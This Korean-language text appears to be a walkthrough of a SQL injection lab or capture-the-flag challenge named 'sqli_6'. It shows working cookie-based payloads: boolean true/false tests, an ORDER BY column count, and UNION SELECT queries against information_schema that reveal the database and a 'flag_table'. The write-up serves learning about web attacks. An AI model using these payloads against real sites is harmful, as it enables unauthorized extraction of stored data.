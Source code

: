 ![Injection 시도 결과](/assets/screenshots/sqli-point/sqli_6_injection.png)

| 쿠키 값               | 결과                    | 의미              |
| ------------------ | --------------------- | ---------------- |
| `1111' and '1'='1` | `Nothing Here...` 표시됨 | 조건이 참 |
| `1111' and '1'='2` | `Nothing Here...` 사라짐 | 조건이 거짓   |

이로써 해당 포인트에서 **SQL Injection이 가능함을 확인**할 수 있었다.

위 Injection 포인트를 기반으로, `ORDER BY` 문을 활용하여 해당 쿼리의 컬럼 개수를 확인하였다.

```sql
1111' order by 1 #
```

- **컬럼 개수: 1개**

```sql
' union select database() #
```

> **데이터베이스 이름: `sqli_6`**

데이터베이스 이름을 식별했으므로, 이제 이를 기반으로 **테이블명, 컬럼명, 플래그 값**까지 순차적으로 추출해보겠다.

```sql
' union select table_name from information_schema.tables where table_schema='sqli_6' limit 1,1 #
```

> **테이블 이름: `flag_table`**
